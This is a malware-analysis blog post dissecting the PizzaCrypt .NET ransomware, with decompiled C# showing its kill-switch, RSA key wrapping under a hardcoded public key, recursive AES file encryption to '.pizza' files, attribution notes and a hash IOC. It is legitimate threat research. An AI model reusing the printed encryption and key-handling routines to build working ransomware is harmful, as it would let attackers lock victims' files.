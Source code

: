 ```yaml
---
title: "PizzaCrypt Analysis"
date: 2022-09-07T16:07:44-04:00
draft: false 
summary: "A quick analysis of some fun .NET ransomware with a goofy ransom note."
tags: ["malware", "ransomware", ".NET", "RE"]
---
```


## Background

I was scrolling through twitter when I saw this post from [@siri_urz](https://twitter.com/siri_urz): 

{{< twitter user=siri_urz id=1567498038435880961 >}}

As a fan of goofy ransomware, I couldn’t resist looking at this. Obviously this isn't some sick APT malware but I've been meaning to write-up more stuff and this seemed like a good exercise. It's a non-obfuscated .NET application so the "RE" process should be pretty quick! I've included the [binary]() and all [decompiled source](https://github.com/ald3ns/PizzaCryptAnalysis/blob/main/Decompiled/1/Program.cs) on my GitHub. 

In 2019 another ransomware program *PizzaCrypt**s***[^1] did the rounds, but this appears to be unrelated.  

## Technical Analysis

Examining `Main` the first thing that stands out is a kill-switch, which checks for the presence of `"C:\\protect.dat"` and will cease execution if found. 

```csharp
bool flag = File.Exists("C:\\protect.dat");
if (flag) {
	Application.Exit();
	Process.GetCurrentProcess().Kill();
	Thread.Sleep(-1);
}
```

We then proceed onto another flag check, this time confirming if `g` is supplied as an argument. In that case it will set the global variables`Program.PersonalID` and `Program.KeyHash` to the values stored in `piz.za` and `pi.zza` respectively. 

```csharp
bool flag2 = args.Length != 0 && args[0] == "g";
if (flag2) {
	Program.PersonalID = File.ReadAllBytes(
		                 Path.Combine(
						 Environment.GetFolderPath(
						 Environment.SpecialFolder.ApplicationData), "piz.za"));

	Program.KeyHash = File.ReadAllBytes(
					  Path.Combine(
					  Environment.GetFolderPath(
					  Environment.SpecialFolder.ApplicationData), "pi.zza"));
}
```

Then we get to the meat of the ransomware, the encryption/decryption routine. It's realtively simple and makes use of a hardcoded key. This is presumably becuase the operator has the private key and will use that to decrypt in the end. It is important to note that no new key is actually generated here. 

```csharp
byte[] key = Program.GenerateSalt(64);
GCHandle gchandle = GCHandle.Alloc(key, GCHandleType.Pinned);
using (RSACryptoServiceProvider rsacryptoServiceProvider = new RSACryptoServiceProvider())
{
	rsacryptoServiceProvider.ImportParameters(new RSAParameters
	{
		Modulus = Convert.FromBase64String(
			"8AacrrnhQdq6IGyOxFlSptFtMmo8VmdX64TZg4Yha3LLHSVinmuV6XXnVEPzJhCI7r7VAOERAEaj/xopNcnmGzRKhK4myQQbaPujznLlBvWZHDrlS8HDNwhB/vNr+m95k+ZntXpuFo/9g8VsKi3SWHVT4kr4HVokzpdWHZtfCQk="), 
		Exponent = Convert.FromBase64String("AQAB") // 65537
	});
	Program.PersonalID = rsacryptoServiceProvider.Encrypt(key, false);
	Program.KeyHash = SHA256.Create().ComputeHash(key);
}
```

After the RSA object has been setup, it writes to those files we talked about earlier which store this specific instance's keys.

```csharp
Program.EncryptAll(array);
Program.ZeroMemory(gchandle.AddrOfPinnedObject(), array.Length);
gchandle.Free();
File.WriteAllBytes(Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), "piz.za"), Program.PersonalID);
File.WriteAllBytes(Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), "pi.zza"), Program.KeyHash);
Process.Start(Application.ExecutablePath, "g");
```

Lastly, we see the actual encryption routine. It recurses through the file system and encrypts each file using the key set above. It also adds the `.pizza` extension to all the files that it encrypted. 

```csharp
private static void EncryptFile(string file, byte[] password)
		{
			using (FileStream fileStream = new FileStream(file + ".pizza", FileMode.Create))
			{
				using (RijndaelManaged rijndaelManaged = new RijndaelManaged())
				{
					byte[] array = Program.GenerateSalt(32);
					fileStream.Write(array, 0, array.Length);
					Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(password, array, 3);
					rijndaelManaged.KeySize = 256;
					rijndaelManaged.BlockSize = 128;
					rijndaelManaged.Padding = PaddingMode.PKCS7;
					rijndaelManaged.Mode = CipherMode.CFB;
					rijndaelManaged.Key = rfc2898DeriveBytes.GetBytes(rijndaelManaged.KeySize / 8);
					rijndaelManaged.IV = rfc2898DeriveBytes.GetBytes(rijndaelManaged.BlockSize / 8);
					using (CryptoStream cryptoStream = new CryptoStream(fileStream, rijndaelManaged.CreateEncryptor(), CryptoStreamMode.Write))
					{
						using (FileStream fileStream2 = new FileStream(file, FileMode.Open))
						{
							byte[] array2 = new byte[10485760];
							int count;
							while ((count = fileStream2.Read(array2, 0, array2.Length)) > 0)
							{
								cryptoStream.Write(array2, 0, count);
							}
						}
					}
				}
			}
		}
```

The decryption routine for this program is exactly the same but makes use of the private key. Overall, there really isn't much to this ransomware.

## Where did this sample come from?

One of the strings that really sticks out in this binary is the source path: "C:\\Users\\Костя\\source\\repos\\". After searching for other submissions that might feature the same info, we come across some very interesting [results](https://www.virustotal.com/gui/search/%2522C%253A%255C%255CUsers%255C%255C%25D0%259A%25D0%25BE%25D1%2581%25D1%2582%25D1%258F%255C%255Csource%255C%255Crepos%255C%255C%2522/files). We can see that this build path is found in quite a few other samples:

- EliteVirusGenerator.exe
- Crapsomware.exe
- not a viruz.exe
- /freecsgodownloadnovirus/freecsgodownloadnovirus.github.io/main/csgo.exe

These all seem like they were written in jest, which tracks with PizzaCrypt. There really isn't any major concern here - was mostly just an interesting exercise in quick and dirty RE with some rough attribution.

## IOCs

| File Name | SHA256                                                       |
| --------- | ------------------------------------------------------------ |
| 1.exe     | a0aafb46fcdbc528925dea8783fa348bb1df49fa4ff216136f32d708d7605b6f |

## References

[^1]: https://minerva-labs.com/blog/did-someone-order-pizzacrypts/
